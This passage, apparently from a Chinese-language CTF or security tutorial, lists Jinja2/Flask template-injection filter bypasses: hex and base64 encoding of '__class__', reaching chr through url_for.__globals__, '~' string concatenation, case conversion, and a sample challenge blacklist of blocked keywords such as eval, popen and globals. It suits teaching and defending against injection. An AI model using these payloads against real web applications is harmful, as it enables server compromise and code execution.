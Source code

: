 

**4、编码绕过**


```plain
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"对于python2的话，还可以利用base64进行绕过（所以我没记错）"__class__"==("X19jbGFzc19f").decode("base64")
Plain Text
```



**5.利用chr函数**


因为我们没法直接使用chr函数，所以需要通过__builtins__找到他


```plain
{% set chr=url_for.__globals__['__builtins__'].chr %}{{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
Plain Text
```



**6、在jinja2里面可以利用~进行拼接**


```plain
{%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}
Plain Text
```



**7、大小写转换**


前提是过滤的只是小写


```plain
""["__CLASS__".lower()]
Plain Text
```






以上是常见的思路。可是假设有一天，你碰到了这样的玩意，你该怎么做？


```plain
blacklist</br>   '.','[','\'','"',''\\','+',':','_',</br>   'chr','pop','class','base','mro','init','globals','get',</br>   'eval','exec','os','popen','open','read',</br>   'select','url_for','get_flashed_messages','config','request',</br>   'count','length','０','１','２','３','４','５','６','７','８','９','0','1','2','3','4','5','6','7','8','9'</br>    </br>
Plain Text
```



所以下面讲一讲进阶操作。

## FLASK进阶操作
